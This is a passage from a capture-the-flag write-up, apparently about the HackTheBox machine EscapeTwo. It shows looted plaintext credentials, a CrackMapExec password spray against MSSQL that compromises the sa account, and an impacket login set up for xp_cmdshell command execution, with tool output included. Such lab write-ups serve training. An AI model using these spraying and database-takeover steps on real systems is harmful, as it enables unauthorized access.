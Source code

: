 ```
sa
MSSQLP@ssw0rd!
```

That's what we get
```
angela:0fwz7Q4mSpurIt99
oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
```

## MSSQL - Connecting

The password itself is pretty telling as per what it's used for, but we can spray it anyway so see if it's used anywhere else.
```bash
cme mssql 10.10.11.51 -u loot/user -p 'MSSQLP@ssw0rd!' --local-auth --continue-on-success
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:DC01)
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Administrator'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'Guest'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'krbtgt'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'michael'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ryan'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'sql_svc'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'rose'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'ca_svc'.
MSSQL       10.10.11.51     1433   DC01             [+] sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'angela'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'oscar'.
MSSQL       10.10.11.51     1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'kevin'.
```

## MSSQL - XP Cmdshell

Connecting to the database and use the built in impacket `xp_cmdshell`
```bash
mssqlclient.py 'escapetwo.htb/sa:MSSQLP@ssw0rd!@10.10.11.51'
```
```
Impacket v0.12.0.dev1+20230816.160145.f6e03b99 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
```